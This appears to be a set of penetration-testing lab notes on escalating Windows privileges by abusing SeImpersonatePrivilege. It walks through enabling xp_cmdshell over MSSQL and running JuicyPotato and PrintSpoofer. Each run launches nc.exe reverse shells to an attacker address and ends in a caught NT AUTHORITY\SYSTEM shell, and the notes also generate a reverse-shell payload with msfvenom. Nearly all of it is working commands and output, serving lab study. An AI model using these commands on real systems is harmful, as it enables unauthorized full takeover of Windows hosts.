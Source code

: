 # SeImpersonate and SeAssignPrimaryToken privilege

**Token**: every process has a token that has information about the account that is running it and it’s store in memory

> **we ask token from `WinLogon` process**

## Exploit **JuicyPotato**

### Debug programs right

```powershell
PS C:\Users\Public> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
**SeImpersonatePrivilege**        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```

#### **Connecting with MSSQLClient.py**

```powershell
irix@htb[/htb]$ mssqlclient.py sql_dev@10.129.43.30 -windows-auth

Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 1: Changed database context to 'master'.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (130 19162) 
[!] Press help for extra shell commands
SQL>
```

#### **Enabling xp\_cmdshell**

```powershell
SQL> enable_xp_cmdshell

[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install
```

#### **Confirming Access**

```powershell
SQL> xp_cmdshell whoami

output                                                                             

--------------------------------------------------------------------------------   

nt service\mssql$sqlexpress01
```

#### **Checking Account Privileges**

```powershell
SQL> xp_cmdshell whoami /priv

output                                                                             

--------------------------------------------------------------------------------   
                                                                    
PRIVILEGES INFORMATION                                                             

----------------------                                                             
Privilege Name                Description                               State      

============================= ========================================= ========   

**SeAssignPrimaryTokenPrivilege** Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    
**SeImpersonatePrivilege**        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled   
```

> The command `whoami /priv` confirms that `SeImpersonatePrivilege` is listed. This privilege can be used to impersonate a privileged account such as `NT AUTHORITY\SYSTEM`. **JuicyPotato** can be used to exploit the `SeImpersonate` or `SeAssignPrimaryToken` privileges via **DCOM/NTLM reflection** abuse

#### **Escalating Privileges Using JuicyPotato**

```powershell
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *

output                                                                             

--------------------------------------------------------------------------------   

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53375                               
                                                                            
[+] authresult 0                                                                   
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM                                                                                                    
[+] CreateProcessWithTokenW OK                                                     
[+] calling 0x000000000088ce08

# l -> refer to port (u can use any port)
# p -> program which run with system token
# a -> argument it will be execute
# which demand from cmd open a reverse shell on attacker machine
```

#### **Catching SYSTEM Shell**

```powershell
irix@htb[/htb]$ sudo nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 50332
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
nt authority\system

C:\Windows\system32>hostname

hostname
WINLPE-SRV01
```

***

## **PrintSpoofer and RoguePotato**

JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. However, PrintSpoofer and RoguePotato can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access

#### **Escalating Privileges using PrintSpoofer**

```powershell
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"

output                                                                             

--------------------------------------------------------------------------------   

[+] Found privilege: SeImpersonatePrivilege                                        

[+] Named pipe listening...                                                        

[+] CreateProcessAsUser() OK                                                       
```

#### **Catching Reverse Shell as SYSTEM**

```powershell
irix@htb[/htb]$ nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 49847
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
nt authority\system
```

***

## JuicyPotato

we will try to take a reverse shell with System privilege

Create a reverse shell

```bash
msfvenom -p cmd/windows/reverse_powershell lhost=10.10.14.212 lport=1111 > 1.bat

```

execute shell on windows machine

```powershell
# dont forget to open listenr on Attacker box
.\JuicyPotato.exe -l 5337 -p C:\Users\Public\1.bat -t * -clisd "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"
```
